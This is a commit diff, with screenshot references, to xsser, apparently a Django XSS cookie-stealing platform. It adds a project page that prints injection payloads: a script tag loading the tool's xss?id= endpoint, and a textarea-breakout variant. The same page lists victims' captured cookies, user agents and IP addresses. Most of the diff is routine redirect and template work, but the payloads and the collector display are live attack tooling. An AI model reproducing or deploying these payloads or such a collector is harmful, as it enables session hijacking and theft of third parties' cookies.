

Before and after one commit to virusdefender/xsser, a Django app: page /project/?id=2 in a window 1280 px wide. Shown: the part 51-521 px from the top of the page. Run offline with Django 3.2, Linux system fonts and the light colour scheme; a user stored in the database is signed in; data comes from the database, SQL or seed files in the repository; both versions use the stored data as it was after the commit; parts of the project's set-up code (start-up, migrations or seed data) failed here and were passed over; some libraries are stand-ins or nearby versions; grey boxes are pictures that could not be loaded.

Commit message:
:change some function

```diff
--- a/core/views.py
+++ b/core/views.py
@@ -2,7 +2,7 @@
 import json
 from django.contrib.auth.models import User
 from django.contrib.auth.decorators import login_required
-from django.http import HttpResponse, Http404
+from django.http import HttpResponse, Http404, HttpResponseRedirect
 from django.shortcuts import render, redirect
 from xsser.settings import BASE_URL
 from .models import XssProject, Record
@@ -19,7 +19,7 @@ def create_project(request):
         if len(title) > 25:
             title = title[:25]
         p = XssProject.objects.create(user=request.user, title=title)
-        return render(request, "core/project_index.html", {"project": p})
+        return HttpResponseRedirect("/project?id=%s" % p.id)
 
 
 @login_required(login_url="/login/")
@@ -29,7 +29,7 @@ def project_detail(request):
         p = XssProject.objects.get(pk=int(project_id), user=request.user)
     except XssProject.DoesNotExist:
         raise Http404
-    return render(request, "core/project_index.html", {"project": p, "base_url": BASE_URL})
+    return render(request, "core/project_detail.html", {"project": p, "base_url": BASE_URL})
 
 
 def get_cookie(request):
--- a/templates/_nav_bar.html
+++ b/templates/_nav_bar.html
@@ -9,7 +9,7 @@
                 <span class="icon-bar"></span>
             </button>
 
-            <a class="navbar-brand" href="/"><span style="font-size:130%;color:black;">xsser</span></a>
+            <a class="navbar-brand" href="/my_projects/"><span style="font-size:130%;color:black;">xsser</span></a>
         </div>
         <div class="navbar-collapse collapse">
 
--- a/templates/core/my_project.html
+++ b/templates/core/my_project.html
@@ -6,7 +6,12 @@
 <div class="container">
     <div class="my_project">
         <h3>My projects</h3>
+        <span class="glyphicon glyphicon-cog"><a href="/create_project/">Create project</a></span>
+        <hr/>
         <div class="panel-body">
+            {% if not projects %}
+                <p>No projects, you can <a href="/create_project/">create a project.</a></p>
+            {% else %}
                 {% for project in projects reversed %}
                     <div class="project">
                         <p>Title:<a href="/project/?id={{ project.id }}">{{ project.title }}</a>&nbsp;&nbsp;&nbsp;&nbsp;
@@ -15,6 +20,7 @@
                         <hr/>
                     </div>
                 {% endfor %}
+            {% endif %}
         </div>
     </div>
 </div>
--- /dev/null
+++ b/templates/core/project_detail.html
@@ -0,0 +1,47 @@
+{% extends "base.html" %}
+{% block title %}Project {{ project.title }}{% endblock %}
+
+{% block body %}
+{% include "_nav_bar.html" %}
+<div class="container">
+    <div class="project">
+        <div class="project_description">
+            <h3>{{ project.title }}</h3>
+
+            <p>Create time:{{ project.create_time|date:"Y-m-d H:i:s" }}</p>
+            <hr/>
+            <div class="instruction">
+                <p>How to use?</p>
+                <p><code>&ltscript src="{{ base_url }}xss?id={{ project.id }}"&lt/script&gt</code></p>
+                <p><code>&lt/textarea&gt'"&gt&ltscript src="{{ base_url }}xss?id={{ project.id }}"&lt/script&gt</code></p>
+            </div>
+        </div>
+        <hr/>
+        <div class="project_records">
+            <div class="panel panel-default">
+                <div class="panel-body">
+                    {% if not project.records.all %}
+                    <p>No cookies</p>
+                    {% else %}
+                        {% for record in project.records.all reversed %}
+                            <div class="record">
+                                <p>Record id:<span class="badge">{{ record.id }}</span></p>
+
+                                <p>Create time:{{ record.create_time|date:"Y-m-d H:i:s" }}</p>
+
+                                <p>Url:<code>{{ record.title }}</code></p>
+                                <p>Cookie:
+                                <code>{{ record.cookie }}</code></p>
+                                <p>User agent:<code>{{ record.user_agent }}</code></p>
+
+                                <p>ip:<code>{{ record.ip }}</code></p>
+                                <hr/>
+                            </div>
+                        {% endfor %}
+                    {% endif %}
+                </div>
+            </div>
+        </div>
+    </div>
+</div>
+{% endblock %}
--- a/templates/core/project_index.html
+++ /dev/null
@@ -1,32 +0,0 @@
-{% extends "base.html" %}
-{% block title %}project{% endblock %}
-
-{% block body %}
-{% include "_nav_bar.html" %}
-<div class="container">
-    <div class="project">
-        <div class="project_description">
-            <h3>{{ project.title }}</h3>
-            <p>Create time:{{ project.create_time|date:"Y-m-d H:i:s" }}</p>
-            <p>JS url:<code>{{ base_url }}xss/{{ project.id }}/</code></p>
-        </div>
-        <div class="project_records">
-            <div class="panel panel-default">
-                <div class="panel-body">
-                    {% for record in project.records.all reversed %}
-                    <div class="record">
-                        <p>Record id:<span class="badge">{{ record.id }}</span></p>
-                        <p>Create time:{{ record.create_time|date:"Y-m-d H:i:s" }}</p>
-                        <p>Url:<code>{{ record.title }}</code></p>
-                        Cookie:<pre>{{ record.cookie }}</pre>
-                        <p>User agent:{{ record.user_agent }}</p>
-                        <p>ip:<code>{{ record.ip }}</code></p>
-                        <hr/>
-                    </div>
-                    {% endfor %}
-                </div>
-            </div>
-        </div>
-    </div>
-</div>
-{% endblock %}
```
Also changed, not shown: db.db. Lines whose indentation alone changed are shown as unchanged.
